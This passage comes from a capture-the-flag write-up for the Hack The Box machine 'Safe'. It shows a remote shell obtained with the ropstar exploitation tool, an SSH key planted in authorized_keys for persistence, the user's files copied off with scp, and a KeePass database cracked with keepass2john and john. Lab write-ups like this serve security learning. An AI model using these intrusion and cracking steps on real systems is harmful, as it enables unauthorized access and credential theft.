 Now, there are two ways (probably more) forward from here. The first time I did the box, I used [ropstar](https://github.com/xct/ropstar) to get user because I was curious to how well the program functions (turns out, quite well). We'll do this method first because its one liner and you get user pretty damn fast.

The second more manual method will be outlined further down in this post.

First we need to clone the repo. ```git clone https://github.com/xct/ropstar```. Once that is done, install the requirements. ```pip install -r requirements.txt```. Then change the permissions on ```ropstar.py```. ```chmod +x ropstar.py```. We are now good to go! We are going to run the following command: 

```python ~/Tools/ropstar/ropstar.py myapp -rhost 10.10.10.147 -rport 1337```. 

Heres the breakdown:
The ```myapp``` argument is the name of the binary.
The ```-rhost``` is the remote host running the binary.
The ```-rport``` is the remote port that the application is using.

Once we run it we get some fun Hackerman content on the screen and are eventually greeted with a prompt.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-90.png" >}}

We now have an interactive remote session on the box! We head over to ```/home/user/``` and snag the user.txt file. Onto root!

We'll want create a new ssh key pair so that we can remote into the box reliably. We'll use ```ssh-keygen``` and save the file to our working directory. Next we'll create the ```authorized_keys``` file on the remote box with. Issuing ```touch /home/user/.ssh/authorized_keys```. Next we'll ```echo``` our key into the file. ```echo "KEY HERE" > /home/user/.ssh/authorized_keys```.

Now that we have a reliable ```SSH``` shell, we can enumerate a bit. We see a file in the users home directory called ```MyPasswords.kdbx```

{{< figure src="__GHOST_URL__/content/images/2019/10/image.png" >}}

There are a bunch of JPG files and a ```KeePass``` database. First we'll download the the ```KeePass``` database. We will use ```scp``` for this. On our local host, we issue:

```scp -r -i id_rsa user@10.10.10.147:/home/user/ /home/user/Documents/htb/safe/```. 

Here's the breakdown of the command:
The ```-r``` tells scp to get all the files.
The ```-i``` tells scp what identity file to use.
The ```:/home/user``` tells scp what file(s) to get on the remote host.
The ```/home/user/Documents/htb/safe/``` is the local path to download the files.

Now if we try to open the ```MyPasswords.kdbx``` file directly we are prompted for the master key.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-1.png" >}}

We know that we need a master key file. After poking around, it seems that we can use the many JPG files we found in the users home directory. We will use ```keepass2john``` to convert the JPG file to a hash and try and crack it with ```john```. So for each image we issue ```keepass2john -k user/IMGFILE user/MyPasswords.kdbx > IMG_XXXX_Hash```. This will take the image file specified, convert it to a hash and save it. We will do this will all 6 of the image files.

Once we've converted all of our images files over to hashes, we will brute force the hashes with ```john```. We issue ```john IMGFILEHERE --wordlist=/usr/share/wordlists/rockyou.txt``` for each hash file we've created. Eventually we get a list of passwords to try against the ```KeePass``` database.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-2.png" >}}

```